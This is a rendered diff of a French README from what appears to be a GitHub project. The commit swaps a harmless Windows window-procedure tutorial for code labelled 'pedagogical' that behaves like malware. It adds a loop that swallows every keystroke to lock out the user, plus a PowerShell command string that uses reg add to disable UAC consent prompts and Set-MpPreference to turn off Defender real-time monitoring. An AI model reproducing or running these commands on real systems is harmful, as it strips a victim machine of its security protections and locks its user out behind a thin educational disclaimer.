

Before and after one commit to imortel-cyber/IMORTEL---Shadowvorcs, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -612,86 +612,43 @@ void displayGlitchEffect() {
 
 ---
 
-### ▸ BLOC 08 — `WindowProc()` — GESTIONNAIRE D'ÉVÉNEMENTS
+### ▸ BLOC 08 — INTERCEPTION NEUTRALISÉE DES ENTRÉES
 
-> 📌 **Remplace le code ci-dessous par ton vrai `WindowProc()`**
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
 
 ```cpp
 // ============================================================
-//  BLOC 08 — WindowProc() — GESTIONNAIRE D'ÉVÉNEMENTS
-//  Reçoit et traite chaque message Windows pour la fenêtre
+//  BLOC 08 — FONCTION DE BLOCAGE DES ENTRÉES
+//  Fonction de blocage des frappes du clavier
 // ============================================================
 
-LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
-    switch (uMsg) {
-
-        case WM_CREATE:
-            // Initialisation au moment de la création de la fenêtre
-            // Ex : SetTimer(hwnd, TIMER_ID, TIMER_INTERVAL, NULL);
-            return 0;
-
-        case WM_TIMER:
-            // Déclenché à chaque tick du timer
-            // wParam == TIMER_ID pour identifier quel timer
-            g_iCounter++;
-            InvalidateRect(hwnd, NULL, TRUE);   // Force un redraw WM_PAINT
-            return 0;
-
-        case WM_KEYDOWN:
-            if (wParam == VK_ESCAPE) PostQuitMessage(0);
-            return 0;
-
-        case WM_PAINT:
-            // → voir BLOC 09
-            return 0;
-
-        case WM_DESTROY:
-            KillTimer(hwnd, TIMER_ID);
-            PostQuitMessage(0);
-            return 0;
-
-        default:
-            return DefWindowProc(hwnd, uMsg, wParam, lParam);
+void blockInput() {
+    while (true) {
+        if (_kbhit()) _getch();
+        std::this_thread::sleep_for(std::chrono::milliseconds(100));
     }
 }
 ```
 
-```
-  ┌────────────────────┬───────────────────────────────────────────┐
-  │  MESSAGE           │  DÉCLENCHÉ QUAND                          │
-  ├────────────────────┼───────────────────────────────────────────┤
-  │  WM_CREATE         │  La fenêtre vient d'être créée            │
-  │  WM_PAINT          │  La fenêtre doit être redessinée          │
-  │  WM_TIMER          │  Timer SetTimer() écoulé                  │
-  │  WM_KEYDOWN        │  Touche du clavier enfoncée               │
-  │  WM_LBUTTONDOWN    │  Clic gauche souris                       │
-  │  WM_MOUSEMOVE      │  Déplacement du curseur                   │
-  │  WM_SIZE           │  Fenêtre redimensionnée                   │
-  │  WM_CLOSE          │  Croix de fermeture cliquée               │
-  │  WM_DESTROY        │  Fenêtre détruite → PostQuitMessage(0)    │
-  └────────────────────┴───────────────────────────────────────────┘
-```
-
-> **Explication à remplacer** — `WindowProc` est la callback centrale : Windows l'appelle automatiquement pour chaque événement. Le `switch(uMsg)` filtre les messages qui t'intéressent. Tout message non géré **doit** être passé à `DefWindowProc` — sinon le comportement par défaut (déplacer la fenêtre, redimensionner...) est cassé.
+> **Cette fonction** crée une boucle infinie qui `intercepte` et supprime toutes les frappes de clavier, empêchant l'utilisateur d'interagir avec le système.
 
 ---
 
-### ▸ BLOC 09 — GDI — RENDU GRAPHIQUE
+### ▸ BLOC 09 — PRISE DE CONTRÔLE SYSTÈME
 
-> 📌 **Remplace le code ci-dessous par ton vrai rendu GDI dans `WM_PAINT`**
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
 
 ```cpp
 // ============================================================
-//  BLOC 09 — GDI — RENDU GRAPHIQUE
-//  Tout le dessin se fait dans le handler WM_PAINT
+//  BLOC 09 — PRISE DE CONTRÔLE SYSTÈME
+//  Élévation de privilèges et exécution de commandes système
 // ============================================================
 
-case WM_PAINT: {
-    PAINTSTRUCT ps;
-    HDC hdc = BeginPaint(hwnd, &ps);
+void openBrowser() {
+    ShellExecuteW(NULL, L"open", L"https://imortel.fr", NULL, NULL, SW_SHOWNORMAL);
+}
 
-    // ── Fond noir ──────────────────────────────────────────
-    HBRUSH hBrushBg = CreateSolidBrush(COLOR_BG);
-    FillRect(hdc, &ps.rcPaint, hBrushBg);
-    DeleteObject(hBrushBg);
+void openPowerShellWithCommands() {
+    const wchar_t* command = L"powershell.exe";
+    const wchar_t* params = L"-NoExit -Command \"Write-Host 'Mode administrateur actif' -ForegroundColor Green; Write-Host '=== Désactivation UAC ===' -ForegroundColor Yellow; reg add 'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System' /v ConsentPromptBehaviorAdmin /t REG_DWORD /d 0 /f; Write-Host '=== Désactivation Defender (temps réel) ===' -ForegroundColor Yellow; Set-MpPreference -DisableRealtimeMonitoring $true; Write-Host '=== Informations réseau ===' -ForegroundColor Yellow; ipconfig /all; Write-Host 'Toutes les commandes ont été exécutées.' -ForegroundColor Green\"";
 
````
Also changed, not shown: other parts of README.md (+32 -37 lines).
